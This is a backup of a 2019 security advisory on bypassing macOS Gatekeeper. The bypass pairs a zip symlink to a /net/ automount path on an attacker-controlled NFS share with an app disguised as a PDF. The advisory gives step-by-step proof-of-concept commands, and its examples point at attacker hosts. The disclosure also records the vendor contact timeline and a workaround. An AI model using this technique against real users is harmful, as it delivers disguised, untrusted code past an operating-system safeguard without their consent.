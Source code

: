 # macos_gatekeeper_bypass (*article backup)
 bypass Gatekeeper in order to execute untrusted code without any warning or user's explicit permission.
sources: https://www.fcvl.net/vulnerabilities/macosx-gatekeeper-bypass

https://www.sentinelone.com/blog/how-malware-bypass-macos-gatekeeper/

MacOS X GateKeeper Bypass
24 May 2019

OVERVIEW
On MacOS X version <= 10.14.5 (at time of writing) it is possible to easily bypass Gatekeeper in order to execute untrusted code without any warning or user's explicit permission.

Gatekeeper is a mechanism developed by Apple and included in MacOS X since 2012 that enforces code signing and verifies downloaded applications before allowing them to run.
For example, if a user donwloads an application from internet and executes it, Gatekeeper will prevent it from running without user's consens.

DETAILS
As per-design, Gatekeeper considers both external drives and network shares as safe locations and it allows any application they contain to run.
By combining this design with two legitimate features of MacOS X, it will result in the complete deceivement of the intended behaviour.

The first legit feature is automount (aka autofs) that allows a user to automatically mount a network share just by accessing a "special" path, in this case, any path beginning with "/net/".
For example
ls /net/evil-attacker.com/sharedfolder/
will make the os read the content of the 'sharedfolder' on the remote host (evil-attacker.com) using NFS.

The second legit feature is that zip archives can contain symbolic links pointing to an arbitrary location (including automount enpoints) and that the software on MacOS that is responsable to decompress zip files do not perform any check on the symlinks before creatig them.

To better understand how this exploit works, let's consider the following scenario:
An attacker crafts a zip file containing a symbolic link to an automount endpoint she/he controls (ex Documents -> /net/evil.com/Documents) and sends it to the victim.
The victim downloads the malicious archive, extracts it and follows the symlink.

Now the victim is in a location controlled by the attacker but trusted by Gatekeeper, so any attacker-controlled executable can be run without any warning. The way Finder is designed (ex hide .app extensions, hide full path from titlebar) makes this tecnique very effective and hard to spot.

The following video illustrates the concept

https://youtu.be/m74cpadIPZY

PoC
In order to reproduce this issue, follow the steps below:

1. create a zip file with a symlink to an automount endpoint

mkdir Documents

ln -s /net/linux-vm.local/nfs/Documents Documents/Documents

zip -ry Documents.zip Documents

2. create an application (.app folder) with the code you want to run

cp -r /Applications/Calculator.app PDF.app

echo -e '#!/bin/bash'"\n"'open /Applications/iTunes.app' > PDF.app/Contents/MacOS/Calculator
chmod +x PDF.app/Contents/MacOS/Calculator

rm PDF.app/Contents/Resources/AppIcon.icns

ln -s /System/Library/CoreServices/CoreTypes.bundle/Contents/Resources/GenericFolderIcon.icns PDF.app/Contents/Resources/AppIcon.icns

3. create a publicily accessible NFS share and put the .app in it

ssh linux-vm.local

mkdir -p /nfs/Documents

echo '/nfs/Documents *(insecure,rw,no_root_squash,anonuid=1000,anongid=1000,async,nohide)' >> /etc/exports

service nfs-kernel-server restart

scp -r mymac.local:PDF.app /nfs/Documents/

upload the zip somewhere in internet and download it so it gets the quarantine flag used by Gatekeeper

extract the zip (if needed) and navigate it

HISTORY
The vendor has been contacted on February 22th 2019 and it's aware of this issue. This issue was supposed to be addressed, according to the vendor, on May 15th 2019 but Apple started dropping my emails.
Since Apple is aware of my 90 days disclosure deadline, I make this information public.

SOLUTION
No solution is available yet.

A possible workaround is to disable automount:

Edit /etc/auto_master as root

Comment the line beginning with '/net'

Reboot
